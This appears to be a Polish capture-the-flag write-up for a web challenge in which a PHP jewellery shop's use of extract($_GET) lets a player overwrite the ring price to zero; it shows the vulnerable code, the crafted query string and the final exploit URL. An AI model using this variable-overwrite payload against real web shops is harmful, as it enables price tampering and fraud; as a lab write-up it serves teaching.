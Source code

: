 # Różdżka chaosu, Jubiler, web

## Opis
"Pierścienie na wystawie wyglądają pięknie, ale nie są tanie..."

## Rozwiązanie

Odwiedzając sklep jubilera widzimy, że pierścienie kosztują 500złota (a my mamy zero).
Interesujący fragment kodu zadania znajduje się w pliku [jewellershop.php](./jewellershop.php)

Jeśli w jakiś sposób zmienilibyśmy cenę pierścienia na zero to poniższy warunek nie byłby spełniony i kupilibyśmy pierścień za zero złota:
```php
if ($player -> credits < $ringPrice)
{
    error(NO_MONEY);
}
```

Możemy to zrobić za pomocą funkcji `extract`, która wypakuje nam zmienne z `$_GET` do przestrzeni globalnej.
```php
extract($_GET);
```

Dzięki temu możemy nadpisać zmienną `$ringPrice`. Problemem jest jeszcze warunek sprawdzający wynik działania funkcji `craft`. Musimy dostarczyć jej poprawnych wartości, aby zapobiec ustawieniu zmiennej `$closed` na `True`, czyli odwołania `$$item['material']` oraz `$$item['inscription']` muszą być poprawne. W celu budowania payloadu wykorzystamy funkcję `http_build_query`, która znacznie uprości całą sprawę:

Czyli musimy:
- ustawić parametr GET `craft`
- nadpisać `$ringPrice`
- stworzyć zmienną, która będzie tablicą asocjacyjną z kluczami: `material` oraz `inscription`

Budujemy parametry za pomocą wcześniej wspomnianej funkcji:
```php
http_build_query(array('craft' => 'asdf', 'item' => 'i', 'i' => array('material' => 'sssss', 'inscription' => 'dddd'), 'ringPrice' => 0));
```
output:
```
craft=asdf&item=i&i%5Bmaterial%5D=sssss&i%5Binscription%5D=dddd&ringPrice=0
```
Doklejamy to do: [https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1](https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1) otrzymując to: https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1&craft=asdf&item=i&i%5Bmaterial%5D=sssss&i%5Binscription%5D=dddd&ringPrice=0

Wchodzimy pod finalny adres i zgarniamy flagę:

![solve](./solve.png)




